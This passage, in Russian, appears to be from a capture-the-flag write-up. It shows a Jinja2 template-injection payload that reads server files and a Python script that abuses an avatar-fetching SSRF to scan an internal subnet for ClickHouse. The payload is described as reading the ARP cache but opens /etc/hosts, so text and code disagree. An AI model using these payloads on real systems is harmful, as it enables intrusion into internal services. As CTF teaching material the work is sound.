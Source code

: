 Все, запросы делаются, теперь нам нужно узнать, где крутится Clickhouse - тут есть два пути:
1) Все адреса, к которым ходили из сервера, могут быть в ARP-кэше (что это такое почитаете тоже сами, это я бы назвал более высоким уровнем, т.к. тут надо сети чуть-чуть знать)
2) Просто перебрать адреса по всей сетке `172.20.0.1/24` (как ловить/смотреть запросы и потом их автоматизировать мы показали)

И так, читаем ARP-кэш:
```python
{{ cycler.__init__.__globals__.os.read(cycler.__init__.__globals__.os.open("/etc/hosts", 0), 1000) }}
```

Ответ:
```
b'IP address HW type Flags HW address Mask Device\n172.20.0.5 0x1 0x0 00:00:00:00:00:00 * eth0\n172.20.0.1 0x1 0x2 02:42:f3:6c:b7:1f * eth0\n172.20.0.7 0x1 0x2 02:42:ac:14:00:07 * eth0\n'
```

Видим, что на них что-то может быть:
```
172.20.0.1
172.20.0.5
172.20.0.7
```

Читаем про Clickhouse, узнаем, что у него на `8123` порту по дефолту HTTP-интерфейс (можно прям загуглить `access to clickhouse over http`): https://clickhouse.com/docs/en/interfaces/http, по очереди перебираем хосты

Для второго варианта (считаю его более православным) нужно заранее узнать, на какой/какие порты стучать, только прочитайте про питониевый модуль `requests`:
```python
import requests as r

for scheme in ['http', 'https']:
	for host in range(1, 256):
		url = 'https://kunigami.uctf.xotohop.tech/avatar' # ручка, смотрим в браузере/бурпе
		headers = {'Cookie': 'session=eyJ1c2VybmFtZSI6IjUifQ.Z0tdQw.1awqk_iAMjke-YwBwTdsIduWgBY'} # наш сессионный токен, смотрим в браузере/бурпе
		data = {'url': f'{scheme}://172.20.0.{host}:8123'} # тело POST запроса, смотрим в браузере/бурпе
		response = r.post(url, data=data, headers=headers, timeout=5) # таймаут ставим потому что даже "на глаз" при запросах из браузера приложение долго отвечает
		if 'Error occurred while fetching avatar' not in response.text:
			print(f'{data}: {response.text}')
```

Получаем:
```
{'url': 'http://172.20.0.7:8123'}
```

Сразу пробуем получить версию БД - `http://172.20.0.7:8123?query=SELECT+version()`, получаем ошибку (тут даже версия есть):
```
Code: 516. DB::Exception: default: Authentication failed: password is incorrect, or there is no user with such name.

If you have installed ClickHouse and forgot password you can reset it in the configuration file.
The password for default user is typically located at /etc/clickhouse-server/users.d/default-password.xml
and deleting this file will reset the password.
See also /etc/clickhouse-server/users.xml on the server where ClickHouse is installed.

. (AUTHENTICATION_FAILED) (version 24.8.8.17 (official build))
```
